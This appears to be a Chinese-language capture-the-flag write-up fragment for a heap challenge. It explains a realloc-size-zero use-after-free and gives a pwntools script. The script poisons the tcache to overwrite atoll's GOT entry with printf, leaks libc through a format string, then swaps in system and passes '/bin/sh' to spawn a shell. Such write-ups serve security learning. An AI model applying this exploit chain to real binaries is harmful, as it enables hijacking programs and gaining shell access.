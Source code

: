 ```c 
    heap[v2] = 0LL;
  }
  return (signed int)v0;
}
```
reallocate size 為零 free 後，沒有清空 ptr

rfree 有清空 ptr

可以利用 alloc 分配，realloc size0 free，再 realloc 寫 chunk

把 fd 寫成 atoll got，寫成 printf 的位置，用於洩漏 libc 或是任意寫

重複以下流程使 tecache 多 size 上留下 atoll_got，方便後面利用(其實好像也用不太到)



```python=
alloc(0, 0x18, "AAA") # malloc id0
realloc(0, 0, "")    # free id0
realloc(0, 0x18, p64(elf.got["atoll"])) # id0 write fd 
alloc(1, 0x18, "BBB") # malloc  id1 (with atoll got)  這塊的下一塊會被先取，也就是已經寫上 elf.got["atoll"])
# heap[0] ==> chunk(0x18) <== heap[1]


realloc(0, 0x28, "CCC") # (with atoll got)
free(0)             # free id0
realloc(1, 0x28, "s"*0x10) # get id0 and rewrite key (with atoll got)
free(1)                # free id1
# bins 0x20 => 0 -> 1 -> got  (got會被先取)

alloc(0, 0x38, "AAA")
realloc(0, 0, "")
realloc(0, 0x38, p64(elf.got["atoll"]))
alloc(1, 0x38, "BBB")
 
realloc(0, 0x48, "CCC")
free(0)
realloc(1, 0x48, "s"*0x10)
free(1)

# 直接拿到 got 位置並且寫入 printf
alloc(0, 0x38, p64(elf.plt["printf"]))
# leak stack 上 libc_start_main
free("%21$llx")

# 直接對 data 寫入 等同於修改 got ，變成 system 填入 /bin/sh
io.sendlineafter("Your choice: ", "1")
io.sendlineafter("Index:", "A\x00")       # 相当于输入1
io.sendlineafter("Size:", "%55x")         # 相当于输入0x38
io.sendlineafter("Data:", p64(system_addr))
io.sendlineafter("Your choice: ", "1")
io.sendlineafter("Index:", "/bin/sh")

```
